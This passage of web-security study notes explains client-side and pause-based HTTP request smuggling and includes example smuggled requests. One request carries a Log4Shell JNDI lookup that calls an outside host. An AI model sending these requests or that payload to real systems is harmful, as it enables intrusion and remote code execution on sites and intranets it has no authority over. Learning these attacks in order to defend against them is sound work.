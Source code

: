 When the browser loads the page as HTML, it will only execute the JavaScript in the `<script>` tags. When it eventually loads this in a JavaScript context, it will only execute the `alert()` payload, treating the rest of the content as arbitrary developer comments.

## Pivoting attacks against internal infrastructure

If the website is vulnerable to client-side desyncs, you may be able to achieve the desired effect by inducing a victim's browser to send the following request:

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 etc.
Content-Length: 86

GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: ${jndi:ldap://x.oastify.com}
```

As all of the requests originate from the victim's browser, this potentially enables you to pivot attacks against any website that they have access to. This includes sites located on trusted intranets or that are hidden behind IP-based restrictions. Some browsers are working on mitigations for these types of attack, but these are likely to only have partial coverage.

---

# Pause-based desync attacks

Pause-based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse. Given the right conditions, this behavior can provide an alternative vector for **both server-side and client-side desync attacks**.

## Server-side pause-based desync

You can potentially use the pause-based technique to elicit [CL.0](CL.0%20smuggling%20vulnerabilities.md)-like behavior, allowing you to construct server-side request smuggling exploits for websites that may initially appear secure.

Conditions:
- front-end server must immediately forward each byte of the request to the back-end rather than waiting until it has received the full request.
- front-end server must not (or can be encouraged not to) time out requests before the back-end server
- back-end server must leave the connection open for reuse following a read timeout

*CL.0 request*
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
